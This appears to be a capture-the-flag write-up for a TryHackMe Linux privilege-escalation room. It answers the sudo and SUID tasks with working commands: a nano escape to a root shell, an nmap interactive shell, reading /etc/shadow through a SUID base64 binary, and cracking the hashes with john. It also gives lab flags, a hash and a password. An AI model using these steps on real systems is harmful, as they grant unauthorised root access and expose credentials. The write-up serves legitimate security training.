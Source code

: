 ##   Answer the questions below

**How many programs can the user "karen" run on the target system with sudo rights?**

- 3

**What is the content of the flag2.txt file?**

- THM-402028394

**How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?**

- ``sudo nmap --interactive``

**What is the hash of frank's password?**

We get access to root via nano:
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
cat /etc/shadow
- $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

* * * 

## Task 7 - Privilege Escalation: SUID 

- ``find / -type f -perm -04000 -ls 2>/dev/null`` will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with [GTFOBins](https://gtfobins.github.io/#+suid). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list.

##   Answer the questions below

**Which user shares the name of a great comic book writer?**

- ``cat /etc/passwd``
- gerryconway

**What is the password of user2?**

We have to get access to /etc/shadow and /etc/passwd in order to feed it to john's ``unshadow`` tool.

1. ``sudo -l``
2. /usr/bin/base64 has the SUID bit set. 
3. ``base64 /etc/shadow``
4. decrypt and save this to shadow.txt and save /etc/passwd to passwd.txt 
5. ``unshadow passwd.txt shadow.txt > passwords.txt``
6. ``john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt``

- Password1
